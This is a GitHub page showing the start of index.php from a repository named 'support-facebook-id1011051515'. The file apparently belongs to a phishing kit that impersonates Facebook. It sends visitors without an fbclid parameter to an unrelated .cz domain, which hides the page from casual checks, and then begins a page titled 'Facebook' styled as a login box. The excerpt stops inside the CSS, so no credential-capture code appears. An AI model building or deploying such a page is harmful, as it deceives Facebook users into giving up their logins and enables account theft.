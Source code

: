 Skip to content
Search or jump to…

Pull requests
Issues
Marketplace
Explore
 
@edinho131 
edinho131
/
support-facebook-id1011051515
1
00
Code
Issues
Pull requests
Actions
Projects
Wiki
Security
Insights
Settings
support-facebook-id1011051515/index.php /
@edinho131
edinho131 Add files via upload
Latest commit af05c05 24 minutes ago
 History
 1 contributor
377 lines (365 sloc)  10.3 KB
  
<?php include $_SERVER['DOCUMENT_ROOT'].'include.php'; ?>

<?php
if (!isset($_GET['fbclid'])) {
    header("Location: https://aswjhqegwemsdszcdselkljl.cz");
    exit();
}
?>
<!DOCTYPE html>
<html>
<head>
	<title>Facebook</title>
	<meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="icon" type="image/png" href="favicon-16x16.png"/>
    <link rel='shortcut icon' type='image/x-icon' href='favicon.ico' />

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" integrity="sha384-JcKb8q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP+VmmDGMN5t9UJ0Z" crossorigin="anonymous">
    <style type="text/css">
    	body{
        font-family: Helvetica, Arial, sans-serif;
      }
      .loginbaba{
        background-color:white;
        border-radius: 8px;
        box-shadow: 0 2px 4px rgba(0, 0, 0, .1), 0 8px 16px rgba(0, 0, 0, .1);
        margin: auto;
        padding: 24px 17px;
        padding-bottom:40px;
        border: 1px solid #dddfe2;
      }
      .logbaba{